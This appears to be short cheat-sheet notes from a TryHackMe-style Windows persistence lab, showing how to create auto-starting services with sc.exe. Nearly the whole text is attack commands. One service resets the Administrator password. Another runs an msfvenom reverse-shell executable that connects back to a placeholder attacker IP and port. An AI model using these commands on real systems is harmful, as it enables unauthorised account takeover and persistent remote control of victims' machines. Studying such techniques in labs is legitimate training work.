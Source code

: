 Create a new service that runs a specific command that starts automatically

	sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
	sc.exe start THMservice

Create a new service that starts automatically that run a custom executable

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER IP] LPORT=[Port] -f exe-service -o rev-svc.exe
	sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
	sc.exe start THMservice2